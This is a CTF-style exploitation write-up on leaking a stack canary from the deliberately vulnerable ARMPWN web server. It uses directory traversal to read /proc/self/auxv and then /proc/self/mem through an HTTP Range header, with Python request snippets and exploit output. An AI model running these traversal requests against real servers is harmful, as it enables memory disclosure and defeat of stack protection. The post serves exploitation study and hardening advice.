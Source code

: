 +++
title = "ARMPWN redux: canary reloaded"
author = "hugsy"
date = 2017-01-24T00:00:00Z
updated = 2017-01-24T00:00:00Z

[taxonomies]
tags = ["linux,pwn,arm,ssp,armpwn"]
categories = [" ctf"]

[extra]
header-img = "img/canary-header.png"
+++

>
> __TL;DR__: It is possible to defeat stack canary protection when a binary is vulnerable to
> arbitrary file read.
>

## Intro ##

First of, Happy New Year 2017 ✌

Recently, I've decided to thoroughly investigate the "_Stack Smashing
Protection_" (SSP) on recent Linux and recent Glibc. This research has led to a
blog post available on [elttam R&D blog](https://www.elttam.com.au/blog). Among
many other things, I've found that canaries built with recent glibc may have
their values leaked, should the program be also vulnerable to an arbitrary file
read access, and if it exposes its
[Auxiliary Vector](https://www.elttam.com.au/blog/playing-with-canaries#auxiliary-vector) via
the `procfs` structure.

All the details regarding the following attack on the canary are explained in
this blog post, so I will assume that you are familiar with it. If you're not:

  * the full article is [here](https://www.elttam.com.au/blog/playing-with-canaries){:target="_blank"}
  * the code repository is [there](https://github.com/elttam/canary-fun){:target="_blank"}

In the article, I imagined the attack scenario would apply perfectly well to a
Web or FTP server, and would occur following those steps:

  1. dump `/proc/self/auxv` to get the `AT_RANDOM` location
  2. read `/proc/self/mem` and force an `lseek` access to reach the location found
     above via
     the [HTTP header Range](https://tools.ietf.org/html/rfc7233#page-8){:target="_blank"} (for
     instance `Range: bytes=<0xAT_RANDOM_LOCATION>-<0xAT_RANDOM_LOCATION+16>`)
  3. Truncate the received buffer to `sizeof(register)`
  4. Nullify the last byte (`result &= ~0xff`)

That was the theory, which made perfect sense, but I wanted a practice
case.

Earlier this year, I [had some fun with ARMPWN](/posts/2016/06/13/armpwn-challenge-write-up.html){:target="_blank"}, a vulnerable web server
created by  <a class="fa fa-twitter" href="https://twitter.com/5aelo" target="_blank"> @5aelo</a> to practice
exploitation on ARM, so I have decided to use it for a practical, yet very
realistic exploit case.

You can download:

  - [the new websrv.c here](https://gist.github.com/00d74ecac86297efc6772e415f307176){:target="_blank"}
  - [or simply the patch here](https://gist.github.com/c2dbc3e3c11836dcebf53a2189f35976){:target="_blank"}


## Patch analysis

This cheap patch provides to the "new" `websrv` the (pseudo-)capability to
[parse the HTTP Range header](https://gist.github.com/hugsy/00d74ecac86297efc6772e415f307176#file-websrv-c-L181-L201){:target="_blank"}
provided by the client. This is basically how modern Web servers (Apache, nginx)
treat this header.

```c
unsigned long start, end;
char *ptr;
int r;

start = end = 0;
ptr = get_range_header(request, len);
if (ptr){
    if(get_ranges_from_header(ptr, &start, &end)==0){
        if (start && end){
            printf("%s:%d reading range of file '%s' from %u-%u\n", inet_ntoa(client.sin_addr), htons(client.sin_port), file, start, end);
            if (lseek(fileno(f), start, SEEK_SET)==-1){
                perror("lseek() failed:");
[...]
```

In the earlier exploit, we had exploited the Directory Traversal to dump the
process memory mapping (via `/proc/self/maps`) and defeat PIE & ASLR. To crush
SSP protection, we managed to get the canary value by brute-forcing it, which is
very noisy (the canary can be found in max. of 4*256=1024 HTTP requests on a
32-bit architecture, 2048 on 64-bit) and risky (the memory corruption may alert
of an on-going attack).

But now we can actually do much better: we have all the conditions
mentioned earlier to exfiltrate the canary's value, thanks to the ELF Auxiliary
Vector.


## Exploitation

This approach is a lot more stable and stealthier than canary brute-forcing,
since we don't rely on any memory corruption/process crash to determine the
valid bytes of the canary
[as we did before](/2016/06/12/armpwn-challenge#leaking-the-canary){:target="_blank"}.


### Find AT_RANDOM from the Auxiliary Vector

So first, we need to read the process _Auxiliary Vector_ exposed via `procfs`.

```python
s.send("GET ../../../../../proc/self/auxv HTTP/1.0\r\n\r\n")
```

And then parse the result:

```python
AT_RANDOM = 25
[...]
data = s.recv(1024)
for i in range(0, len(data), 8):
    code = struct.unpack("<I", data[i:i+4])[0]
    if code==AT_RANDOM:
        at_random_address = struct.unpack("<I", data[i+4:i+8])[0]
        break
```

If we did things correctly, this will store in the variable `at_random_address`
the address of the 16 random bytes provided by the kernel, used to create the
canary.


### (l)seeking the process memory via the HTTP Range header

Since `procfs` also exposes the process memory, we can use `/proc/<pid>/mem` to
seek to the address we've found at the step above.

```python
m = "GET ../../../../../proc/self/mem HTTP/1.0\r\n"
m+= "Range: bytes={:d}-{:d}\r\n\r\n".format(at_random_address,at_random_address+16)
s.send(m)
```


<div markdown="span" class="alert-warning"><i class="fa fa-info-circle">&nbsp;Warning:</i> `yama/ptrace_scope` must be set to 0 to be able to read the process</div>
memory.


### Fire!

The final exploitation script which combines all the steps described above can
be found [here](https://gist.github.com/hugsy/a462b398721bfb7e6bbd678b6d0e852b).

```
$ python armpwn_leak_canary.py
[+] Connected to 'rpi2-1:80'
[+] Leaking AUVX
[+] AT_RANDOM=0xbe8409c5
[+] Forging HTTP request using Range
[+] Canary is 0xd998d300
```

To be we fetched the correct value for the canary of the remote process, we can use [this script](https://github.com/elttam/canary-fun/blob/master/read_canary_from_pid.py) locally to compare the values for the canary:

![image_alt](https://i.imgur.com/IWpuMIy.png)



## Conclusion

This exploitation shows a different way to leak the canary value, and therefore defeat the SSP protection. As you may have noticed, since this attack does not rely on memory corruption, it is extremely reliable. And it is also much faster: the canary brute-force can take up 4x256 (or resp. 8x256 for 64-bits) requests to determine, where this approach found the same value with only 2 requests.

This illustrates once again the need to maintain a system as hardened as possible, especially on production systems, since restricting `ptrace`, or refusing to expose AUXV like GrSec does, would defeat this attack.

Thanks for reading, and as usual drop me a line on IRC/Twitter/email for any question/comment ☕
